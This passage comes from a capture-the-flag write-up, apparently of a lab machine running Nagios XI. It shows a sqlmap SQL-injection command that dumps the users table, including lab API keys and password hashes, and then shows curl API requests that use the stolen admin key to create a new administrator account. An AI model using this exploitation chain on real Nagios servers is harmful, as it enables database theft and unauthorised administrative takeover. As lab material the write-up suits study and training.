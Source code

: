 With the following command its possible to acquire all the users on the application using the following command. Here we could see there were only two users but whats interesting is that there is an **API key for all users**

```bash
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=1&token=042b5f8597666a7d80766e2fa62fc3dcb5813876" -p id --proxy=http://127.0.0.1:8080 --batch  --dump -T xi_users -D nagiosxi
```

![Users ](/assets/img/Monitored/Monitored_06.png)

CSV file for ease of use

```csv
user_id,email,name,api_key,enabled,password,username,created_by,last_login,api_enabled,last_edited,created_time,last_attempt,backend_ticket,last_edited_by,login_attempts,last_password_change
1,admin@monitored.htb,Nagios Administrator,IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL,1,$2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C,nagiosadmin,0,1701931372,1,1701427555,0,0,IoAaeXNLvtDkH5PaGqV2XZ3vMZJLMDR0,5,0,1701427555
2,svc@monitored.htb,svc,2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK,0,$2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK,svc,1,1699724476,1,1699728200,1699634403,1705351454,6oWBPbarHY4vejimmu3K8tpZBNrdHpDgdUEs5P2PFZYpXSuIdrRMYgk66A0cjNjq,1,5,1699697433
```

### Creating new nagios user

So now that extracted the users table gave us some information on the admin user. The API key looks very interesting but we can't use this to log in directly, However if we call the api  we would still be able to do whatever we want with administrative permissions. my next guess was then to add a new user which we control the password of. When searching for this i ran into a [support ticket](https://support.nagios.com/forum/viewtopic.php?f=16&t=42923) that disclosed the API request used for adding a new user.

```bash
curl -XPOST "http://x.x.x.x/nagiosxi/api/v1/system/user?apikey=LTltbjobR0X3V5ViDIitYaI8hjsjoFBaOcWYukamF7oAsD8lhJRvSPWq8I3PjTf7&pretty=1" -d "username=jmcdouglas&password=test&name=Jordan%20McDouglas&email=jmcdouglas@localhost"
```

Now we modify this request with our API key and username we want to create. Do note we need to add the **auth_level=admin** parameter otherwise this user won't have administrative access 

```bash
curl -XPOST "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=Calico1&password=Calico&name=Calico&email=Calico@localhost&auth_level=admin" --proxy "http://127.0.0.1:8080" --insecure
```

The server then issued the following response showing us that the user has been created successfully
